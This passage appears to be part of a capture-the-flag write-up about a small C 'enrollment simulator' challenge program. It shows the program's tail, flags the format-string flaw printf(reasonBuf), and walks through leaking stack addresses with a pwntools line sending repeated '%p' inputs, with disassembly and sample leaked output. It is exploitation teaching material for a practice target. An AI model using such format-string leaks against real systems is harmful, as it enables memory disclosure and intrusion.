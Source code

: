 ```c
            case 5:
                puts("Your application will be reviewed and processed, bye");
                free(reasonBuf);
                exit(1);
                break;
            case 6:
                puts("Are you sure you want to quit without enrolling in any of the available courses? (y/n)");
                getchar();
                if (getchar() == 'y'){
                    puts("QAQ");
                    exit(1);
                } else {
                    puts("Please enroll in COMP2633 UwU");
                }
                break;
                
        }
    }

}


int main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    enrollment_simulator();
}
```
There are some lines in the program's source which reveals the some vulnerability which we can exploit. For example,   
```c
printf("Email: %s\n",email); 
printf("Reason for late enrollment:\n");
printf(reasonBuf);
```
- `printf("Email: %s\n",email);`: Helps us to dereference what's in email and print that out for us.
- `printf(reasonBuf);`: prints out the content of `reasonBuf` directly. Therefore, we can input some format strings like a bunch of `%p` to inspect the stack of the program **above** `reasonBuf`.  
For example, we can use it to output the address of `email` variable which is nearby
```
   0x000055af0b9bd463 <+167>:   lea    rax,[rbp-0x60]
   0x000055af0b9bd467 <+171>:   mov    esi,0x50
   0x000055af0b9bd46c <+176>:   mov    rdi,rax
   0x000055af0b9bd46f <+179>:   call   0x55af0b9bd269 <readInput>
   0x000055af0b9bd474 <+184>:   lea    rdi,[rip+0xcb5]        # 0x55af0b9be130
   0x000055af0b9bd47b <+191>:   call   0x55af0b9bd0f0 <puts@plt>
   0x000055af0b9bd480 <+196>:   mov    rax,QWORD PTR [rbp-0x68]
   0x000055af0b9bd484 <+200>:   mov    esi,0x100
   0x000055af0b9bd489 <+205>:   mov    rdi,rax
   0x000055af0b9bd48c <+208>:   call   0x55af0b9bd269 <readInput>
```
Here `rbp-0x68` is `reasonBuf` and `rbp-0x60` is `email`, they are identifiable because input function `readInput` was used in the source with `0x100` and `0x50` bytes of input size respectively. For example, with `p.sendlineafter(b"late enrollment:", b"%p \n" * 0x20)` in our python script, output would be somewhat like the following:    
```
[*] Switching to interactive mode
7f3cbc11c723 
(nil) 
0x7f3cbc03d297 
0x1c 
```